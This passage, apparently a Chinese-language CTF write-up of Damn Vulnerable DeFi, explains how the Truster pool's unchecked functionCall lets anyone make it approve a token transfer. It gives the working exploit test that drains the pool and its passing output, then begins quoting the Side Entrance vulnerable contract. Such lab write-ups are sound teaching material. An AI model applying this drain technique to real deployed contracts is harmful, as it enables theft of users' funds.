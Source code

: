 其中主要观察flashloasn函数 其中有两种类型的地址 borrower和target,同时还调用了functionCall[functionCall](https://docs.openzeppelin.com/contracts/3.x/api/utils#Address-functionCall-address-bytes-)

这样 我们就可以我们的pool合约与target和data合约进行交互, 我们可以用pool的msg.sender作为调用者

其实就是`target.functionCall(data)` 可以以 `TrusterLenderPool` 的身份调用任意合约的任意函数

因为使用了ERC20.那么可以使用`approve`来完成这笔交易[](https://docs.openzeppelin.com/contracts/5.x/api/token/erc20#IERC20)[ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/5.x/api/token/erc20#IERC20-approve-address-uint256-)

我们要将掏空100W个闪电贷, 因为闪电贷原理,我们无法在用一个交易中窃取. 那么我们可以创建另一组交易

被闪电贷这笔交易允许,然后再另一个交易中获取代币

我们可以让Pool合约批准我们使用其所有 DVT 代币。然后用 transferFrom调用

Exp:

```js
    it('Execution', async function () {  
        /\*\* CODE YOUR SOLUTION HERE \*/  
        let interface = new ethers.utils.Interface(\["function approve(address spender, uint256 amount)"\])  
        let data = interface.encodeFunctionData("approve", \[player.address, TOKENS\_IN\_POOL\]); //！  

        await pool.connect(player).flashLoan(0, player.address, token.address, data);  
        await token.connect(player).transferFrom(pool.address, player.address, TOKENS\_IN\_POOL)  
    });  
//注意0只是为了实现一个通证
```

run:

```js
\[Challenge\] Truster  
  ✔ Execution (42ms)  
1 passing (2s)
```

## Challenge #4 - Side Entrance

> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
> 
> It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
> 
> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

这次挑战的内容：从余额 1 ETH 开始，通过从池中取出所有 ETH 来通过挑战。

对于这把challenge，我们先看一下合约代码。也是比较简单,只有一个SideEntraceLenderPool.sol文件

```js
interface IFlashLoanEtherReceiver {  
    function execute() external payable;  
}  

contract SideEntranceLenderPool {  
    mapping(address => uint256) private balances; // 用户余额映射  

    error RepayFailed();  

    event Deposit(address indexed who, uint256 amount);  
    event Withdraw(address indexed who, uint256 amount);  

    function deposit() external payable {      //允许用户将 ETH 存入池子  
        unchecked {  
            balances\[msg.sender\] += msg.value;  
```